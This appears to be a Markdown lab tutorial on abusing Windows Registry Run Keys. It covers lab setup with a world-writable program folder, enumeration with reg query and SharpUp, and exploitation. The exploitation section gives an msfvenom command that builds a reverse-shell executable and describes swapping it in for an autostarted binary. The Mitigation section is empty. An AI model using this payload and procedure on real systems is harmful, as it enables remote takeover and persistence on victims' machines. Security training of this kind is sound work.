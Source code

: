# Logon Autostart Execution (Registry Run Keys)

## Table of Contents

- [Logon Autostart Execution (Registry Run Keys)](#logon-autostart-execution-registry-run-keys)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution through Registry Run Keys is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up. 

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Registry Run Keys. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrator privileges and run the following command to create a new folder:

```
mkdir "C:\Program Files\NickvourdSrv"
```

Outcome:

![Autostart-Registry-Keys-Create-Directory](/Pictures/AutostartRegistryKeys-LabSetup-Part1.png)

2) Download the file [NCV_AMD64.exe](/Lab-Setup-Binary/NCV_ADM64.exe) to the 'C:\Program Files\NickvourdSrv' directory.

3) Modify the permissions of the 'C:\Program Files\NickvourdSrv' directory to allow Full Control for all users:

![Autostart-Registry-Keys-Modify-Directory-Permissions](/Pictures/AutostartRegistryKeys-LabSetup-Part2.png)

4) Open a PowerShell with local Administrator privileges and run the following command to edit registry key:

```
regedit
```

5) Navigate to `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` and create new String Value `NickvourdSrv`:

![Autostart-Registry-Keys-Create-Registry-key-String-Value](/Pictures/AutostartRegistryKeys-LabSetup-Part4.png)

6) Modify the key string named `NickvourdSrv` with value data `C:\Program Files\NickvourdSrv\NCV_AMD64.exe`:

![Autostart-Registry-Keys-Modify-Registry-key-String-Value](/Pictures/AutostartRegistryKeys-LabSetup-Part6.png)

### PowerShell Script Lab Setup 

Another way to set up the lab with the 'Logon Autostart Execution (Registry Run Keys)' scenario is by using the custom PowerShell script named [LogonAutostartExecutionRegistryRunKeys.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionRegistryRunKeys.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionRegistryRunKeys.ps1
```

Outcome:

![Autostart-Registry-Keys-PowerShell-Lab-Setup-Script](/Pictures/AutostartRegistryKeys-LabSetup-Part7.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the RegistryAutoruns issue, you can use the following command from a command prompt:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Outcome:

![RegistryAutoruns-Manual-Enumeration](/Pictures/RegistryAutoruns-Manual.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `RegistryAutoruns` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit RegistryAutoruns
```

Outcome:

![RegistryAutoruns-SharpUp](/Pictures/RegistryAutoruns-SharpUp.png)

:information_source: Moreover, you can use `SharpUp.exe audit` to perform a comprehensive enumeration of all misconfigurations vulnerabilities on the specified machine.

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\Program Files\NickvourdSrv'.

4) Rename the 'NCV_AMD64.exe' to 'NCV_AMD64.bak'.

5) Rename the malicious exe (shell.exe) to 'NCV_AMD64.exe'.

Outcome:

![RegistryAutoruns-AboveActions](/Pictures/RegistryAutoruns-AboveActions.png)

6) Open a listener on your Kali machine.

## Mitigation

## References

- [Run and RunOnce Registry Keys Microsoft](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)
- [Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder Mitre](https://attack.mitre.org/techniques/T1547/001/)